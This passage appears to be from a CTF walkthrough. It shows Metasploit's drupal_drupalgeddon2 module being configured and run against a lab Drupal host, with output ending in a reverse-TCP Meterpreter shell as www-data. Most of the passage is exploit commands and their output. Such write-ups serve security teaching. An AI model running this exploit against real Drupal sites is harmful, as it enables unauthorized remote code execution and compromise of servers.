 ```bash
   6  exploit/unix/webapp/drupal_restws_unserialize  2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   7  exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution


msf5 > use exploit/unix/webapp/drupal_drupalgeddon2
```

We'll try the module `drupal_drupalgeddon2`, and view it's settings:
```bash
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > show options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target address range or CIDR identifier
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)

```

We'll set the RHOST to ctf, and TARGETUIT to /drupal.
Followed by RUN to launch the exploit:
```bash
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS ctf
RHOSTS => ctf
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set TARGETURI /drupal
TARGETURI => /drupal
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.1.104:4444
[*] Sending stage (38247 bytes) to 192.168.1.103
[*] Meterpreter session 1 opened (192.168.1.104:4444 -> 192.168.1.103:54218) at 2019-12-01 07:55:14 -0500
```
Piece of cake, we now have RCE on the machine via the user `www-data`.

##Privilege Escalation
